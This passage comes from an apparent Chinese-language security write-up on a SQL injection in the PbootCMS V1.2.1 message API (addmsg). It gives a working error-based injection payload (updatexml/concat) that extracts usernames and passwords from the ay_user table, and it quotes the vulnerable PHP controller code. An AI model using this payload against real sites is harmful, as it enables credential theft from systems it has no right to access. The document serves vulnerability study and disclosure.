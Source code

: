 这里我把关键代码放出来了，可以看到接收\$where以后直接仍进了数据库进行操作造成了注入

0x10.2 接口注入二
-----------------

### 0x10.2.1 漏洞利用

    url：http://127.0.0.1/cms/PbootCMS-V1.2.1/api.php/cms/addmsg
    post:
        contacts[contentl`) VALUES ( updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,username,0x3a,password,0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1) );-- a] = 111
        mobile = 111
        content = 111

![](./resource/PbootCMSsql注入/media/rId50.png)

0x10.2.2 漏洞讲解
文件：PbootCMS-V1.2.1\\apps\\api\\controller\\CmsController.php
方法：addmsg(

    // 新增留言   注入
        public function addmsg()
        {
            if ($_POST) {

                // 读取字段
                if (! $form = $this->model->getFormField(1)) {
                    json(0, '接收表单不存在任何字段，请核对后重试！');
                }

                // 接收数据
                $mail_body = '';
                foreach ($form as $value) {
                    $field_data = post($value->name);
                    if ($value->required && ! $field_data) {
                        json(0, $value->description . '不能为空！');
                    } else {
                        $data[$value->name] = post($value->name);
                        $mail_body .= $value->description . '：' . post($value->name) . '<br>';
                    }
                }

                // 设置其他字段
                if ($data) {
                    $data['acode'] = get('acode', 'var') ?: $this->lg;
                    $data['user_ip'] = ip2long(get_user_ip());
                    $data['user_os'] = get_user_os();
                    $data['user_bs'] = get_user_bs();
                    $data['recontent'] = '';
                    $data['status'] = 0;
                    $data['create_user'] = 'api';
                    $data['update_user'] = 'api';
                }
